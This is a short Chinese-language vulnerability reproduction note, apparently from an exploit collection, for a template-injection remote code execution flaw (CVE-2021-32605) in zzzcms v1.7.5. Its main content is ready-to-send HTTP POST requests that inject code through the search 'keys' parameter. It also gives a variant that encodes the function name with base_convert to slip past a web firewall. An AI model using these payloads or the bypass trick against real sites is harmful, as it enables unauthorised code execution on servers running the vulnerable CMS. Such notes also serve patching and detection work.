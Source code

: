# zzzcms v1.7.5 前台远程命令执行漏洞

## 漏洞描述

zzzcms v1.7.5 parserSearch 存在模板注入导致远程命令执行漏洞。

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2021-32605
- https://www.anquanke.com/post/id/212272

## 漏洞影响

```
zzzcms v1.7.5
```

## 漏洞复现

执行 `phpinfo`：

```
POST /?location=search HTTP/1.1
Host: your-ip

keys={if:=phpinfo()}{end if}
```

如果遇到拦截，编码绕过：

```
<?php
echo (base_convert("phpinfo()", 32, 10));
?>
-----
27440799224
```

```
POST /?location=search HTTP/1.1
Host: your-ip

keys={if:array_map(base_convert(27440799224,10,32),array(1))}{end if}
```

![](images/zzzcms%20v1.7.5%20前台远程命令执行漏洞/image-20250407143723180.png)
